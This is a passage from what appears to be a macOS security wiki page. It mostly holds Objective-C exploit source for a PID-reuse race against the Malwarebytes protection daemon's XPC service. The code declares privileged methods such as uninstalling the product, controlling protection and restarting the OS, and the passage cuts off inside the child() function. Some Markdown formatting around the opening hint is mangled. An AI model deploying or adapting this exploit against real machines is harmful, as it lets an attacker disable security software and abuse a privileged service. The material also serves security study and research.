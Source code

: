 {% hint style="danger" %}
For the exploit to work it's important to ` export`` `` `**`OBJC_DISABLE_INITIALIZE_FORK_SAFETY=YES`** or to put inside the exploit:

```objectivec
asm(".section __DATA,__objc_fork_ok\n"
"empty:\n"
".no_dead_strip empty\n");
```
{% endhint %}

{% tabs %}
{% tab title="NSTasks" %}
First option using **`NSTasks`** and argument to launch the children to exploit the RC

```objectivec
// Code from https://wojciechregula.blog/post/learn-xpc-exploitation-part-2-say-no-to-the-pid/
// gcc -framework Foundation expl.m -o expl

#import <Foundation/Foundation.h>
#include <spawn.h>
#include <sys/stat.h>

#define RACE_COUNT 32
#define MACH_SERVICE @"com.malwarebytes.mbam.rtprotection.daemon"
#define BINARY "/Library/Application Support/Malwarebytes/MBAM/Engine.bundle/Contents/PlugIns/RTProtectionDaemon.app/Contents/MacOS/RTProtectionDaemon"

// allow fork() between exec()
asm(".section __DATA,__objc_fork_ok\n"
"empty:\n"
".no_dead_strip empty\n");

extern char **environ;

// defining necessary protocols
@protocol ProtectionService
- (void)startDatabaseUpdate;
- (void)restoreApplicationLauncherWithCompletion:(void (^)(BOOL))arg1;
- (void)uninstallProduct;
- (void)installProductUpdate;
- (void)startProductUpdateWith:(NSUUID *)arg1 forceInstall:(BOOL)arg2;
- (void)buildPurchaseSiteURLWithCompletion:(void (^)(long long, NSString *))arg1;
- (void)triggerLicenseRelatedChecks;
- (void)buildRenewalLinkWith:(NSUUID *)arg1 completion:(void (^)(long long, NSString *))arg2;
- (void)cancelTrialWith:(NSUUID *)arg1 completion:(void (^)(long long))arg2;
- (void)startTrialWith:(NSUUID *)arg1 completion:(void (^)(long long))arg2;
- (void)unredeemLicenseKeyWith:(NSUUID *)arg1 completion:(void (^)(long long))arg2;
- (void)applyLicenseWith:(NSUUID *)arg1 key:(NSString *)arg2 completion:(void (^)(long long))arg3;
- (void)controlProtectionWithRawFeatures:(long long)arg1 rawOperation:(long long)arg2;
- (void)restartOS;
- (void)resumeScanJob;
- (void)pauseScanJob;
- (void)stopScanJob;
- (void)startScanJob;
- (void)disposeOperationBy:(NSUUID *)arg1;
- (void)subscribeTo:(long long)arg1;
- (void)pingWithTag:(NSUUID *)arg1 completion:(void (^)(NSUUID *, long long))arg2;
@end

void child() {

    // send the XPC messages
    NSXPCInterface *remoteInterface = [NSXPCInterface interfaceWithProtocol:@protocol(ProtectionService)];
```